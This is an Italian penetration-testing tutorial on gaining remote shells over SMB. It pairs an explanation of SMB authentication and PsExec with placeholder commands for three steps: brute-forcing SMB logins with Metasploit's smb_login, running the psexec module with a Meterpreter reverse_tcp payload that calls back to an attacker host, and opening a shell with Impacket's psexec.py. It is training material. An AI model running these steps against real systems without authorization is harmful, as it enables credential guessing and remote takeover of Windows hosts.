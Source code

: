 # Exploiting SMB con PsExec

## Introduzione all’autenticazione SMB

Il protocollo **SMB (Server Message Block)** viene utilizzato nei sistemi Windows per la condivisione di file, stampanti e risorse di rete. SMB supporta due principali modalità di autenticazione:

1. **Autenticazione dell’utente** – richiede un nome utente e una password validi.  
2. **Autenticazione della risorsa condivisa** – richiede solo una password per accedere a una cartella condivisa, senza nome utente.

Durante la procedura di autenticazione SMB, il processo si svolge nel seguente modo:
- Il client invia una richiesta di autenticazione al server, specificando un nome utente.
- Il server risponde con una **stringa casuale (challenge)**.
- Il client cifra questa stringa con l’**hash della password dell’utente** e la invia al server.
- Il server, conoscendo l’hash della password, verifica la risposta.
Se la stringa corrisponde, l’autenticazione viene accettata.

---

## Che cos’è PsExec

**PsExec** è uno strumento sviluppato da Sysinternals (Microsoft) che consente di **eseguire comandi e processi su sistemi Windows remoti**.  
Può essere considerato un’alternativa più leggera di RDP: anziché accedere con un’interfaccia grafica, PsExec fornisce un accesso testuale simile al terminale, eseguendo comandi CMD da remoto.

Il suo funzionamento si basa sul protocollo SMB: ciò significa che può essere utilizzato per autenticarsi ed eseguire comandi su un host remoto **senza bisogno di vulnerabilità**, a condizione di possedere credenziali valide.

---

## 1 – Enumerazione delle credenziali con brute force

Uno dei modi più comuni per ottenere credenziali valide è il **brute force** sul servizio SMB.  
In Metasploit esiste un modulo apposito:

`use auxiliary/scanner/smb/smb_login` ⟶ modulo per tentare autenticazioni SMB. <br>
`set RHOSTS <IP>` ⟶ indirizzo target. <br>
`set USER_FILE <lista_username.txt>` ⟶ file contenente possibili username. <br>
`set PASS_FILE <lista_passwords.txt>` ⟶ file contenente possibili password. <br>
`run` ⟶ avvia il brute force. <br>

Se il modulo restituisce una coppia valida di credenziali possiamo visualizzarle con `creds`

---

## 2 – Alternativa con Metasploit

Metasploit offre anche un modulo per sfruttare SMB usando credenziali valide:

`use exploit/windows/smb/psexec` ⟶ modulo per eseguire comandi su target Windows. <br>
`set RHOSTS <IP>` ⟶ indirizzo del sistema bersaglio. <br>
`set SMBUser <username>` ⟶ nome utente. <br>
`set SMBPass <password>` ⟶ password. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta su cui ricevere la shell. <br>
`run` ⟶ avvia l’exploit. <br>

Questo modulo carica una reverse shell sul target e restituisce una sessione Meterpreter. Da lì:

`getuid` ⟶ mostra il contesto utente. <br>
`shell` ⟶ apre un prompt CMD. <br>
`search -f <file>` ⟶ cerca in tutto il filesystem un file <br>

---

## 3 – Accesso remoto con psexec.py (Impacket)

Lo strumento `psexec.py` della suite **Impacket** consente di autenticarsi e ottenere una shell CMD:

`psexec.py <username>@<IP> cmd.exe` ⟶ connessione remota tramite SMB con prompt dei comandi. <br>

si trova al path `/usr/share/doc/python3-impacket/examples/psexec.py` <br>

Dopo l’invio del comando, verrà chiesta la password. Inserendo quella corretta, si otterrà accesso al prompt di Windows con i privilegi dell’utente fornito.

Questo tipo di autenticazione è **totalmente legittima**, non sfrutta vulnerabilità, e viene spesso usata da amministratori di sistema per gestire host remoti.

---
